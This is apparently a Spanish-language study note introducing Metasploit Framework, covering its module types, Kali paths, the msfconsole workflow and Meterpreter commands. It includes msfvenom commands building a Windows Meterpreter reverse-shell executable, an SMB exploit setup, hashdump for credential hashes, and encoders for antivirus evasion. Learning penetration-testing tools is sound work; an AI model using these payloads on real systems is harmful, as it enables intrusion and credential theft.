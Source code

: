 # Fundamentos de Metasploit Framework

## ¿Qué es Metasploit?

Metasploit Framework es una herramienta de explotación modular que permite encontrar, validar y explotar vulnerabilidades de seguridad en sistemas informáticos.

Fue creado originalmente por H.D. Moore y actualmente es mantenido por Rapid7.

**¿Para qué se utiliza?**
- Pruebas de penetración (pentesting)
- Desarrollo y prueba de exploits
- Post-explotación (obtener hashes, usuarios, etc.)
- Automatización de ataques

---

## Componentes principales

### 1. **Exploits**
Código diseñado para aprovechar una vulnerabilidad en una aplicación o sistema.

**Ruta en Kali:**
```
/usr/share/metasploit-framework/modules/exploits/
```

**Ejemplo de uso:**
```bash
use exploit/windows/smb/ms08_067_netapi
```

### 2. **Payloads**
Código que se ejecuta tras explotar la vulnerabilidad, usado para tomar control del sistema.

Tipos comunes:
- `reverse_tcp`: La víctima se conecta al atacante.
- `bind_tcp`: El atacante se conecta al puerto abierto por la víctima.
- `meterpreter`: Un shell interactivo avanzado para Windows/Linux.

**Ruta de payloads:**
```
/usr/share/metasploit-framework/modules/payloads/
```

**Generación manual con msfvenom:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<tu_IP> LPORT=<puerto> -f exe > payload.exe
```

### 3. **Encoders**
Codifican los payloads para evitar su detección por antivirus. No garantizan evasión, pero ayudan.

**Ruta:**
```
/usr/share/metasploit-framework/modules/encoders/
```

### 4. **Nops**
“Operaciones nulas” usadas para rellenar memoria sin alterar comportamiento del exploit.

### 5. **Auxiliary**
Módulos que no son exploits. Se usan para escaneo, fuzzing, fuerza bruta, etc.

**Ruta:**
```
/usr/share/metasploit-framework/modules/auxiliary/
```

**Ejemplo:**
```bash
use auxiliary/scanner/smb/smb_version
```

### 6. **Post**
Módulos utilizados después de obtener acceso, para recolectar información, escalar privilegios o pivotar.

**Ruta:**
```
/usr/share/metasploit-framework/modules/post/
```

---

## Flujo de trabajo básico

```bash
msfconsole                          # Iniciar Metasploit
search samba                       # Buscar módulos
use exploit/windows/smb/...        # Usar un módulo
show options                       # Ver parámetros requeridos
set RHOSTS <IP_objetivo>           # Definir IP objetivo
set LHOST <tu_IP>                  # Definir tu IP para payload reverso
set PAYLOAD windows/meterpreter/reverse_tcp
exploit                            # Lanzar el ataque
```

---

## Estructura de directorios en Kali

```
/usr/share/metasploit-framework/       # Archivos del framework
├── modules/                           # Exploits, payloads, encoders...
├── data/wordlists/                    # Diccionarios
├── tools/                             # Scripts y utilidades
├── documentation/                     # Documentación oficial
```

---

## Uso de Meterpreter

Una vez se ejecuta el payload, puedes obtener una **sesión Meterpreter**:

Comandos comunes:
```bash
sysinfo             # Información del sistema
getuid              # Usuario actual
shell               # Saltar a la shell de Windows/Linux
hashdump            # Dump de hashes (si tienes permisos)
screenshot          # Captura de pantalla
upload/download     # Subir o bajar archivos
```

---

## Búsqueda de módulos

```bash
search smb
search type:exploit platform:windows
```

---

## ¿Qué es `msfvenom`?

Es la herramienta de Metasploit para **crear payloads personalizados**.

Ejemplo:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.1 LPORT=4444 -f exe > shell.exe
```

---

## Consejos de uso

- Siempre revisa `show options` para configurar bien el módulo.
- Usa `exploit -j` para ejecutarlo en segundo plano.
- Usa `sessions -l` para ver sesiones activas.
- Usa `sessions -i <id>` para interactuar con una sesión.

---

## Comandos útiles en msfconsole

```bash
help                    # Ver comandos disponibles
use <módulo>            # Cargar un módulo
set <param> <valor>     # Definir opciones
show options            # Ver opciones requeridas
exploit                 # Ejecutar el ataque
sessions -l             # Listar sesiones activas
sessions -i <ID>        # Interactuar con sesión
```

---

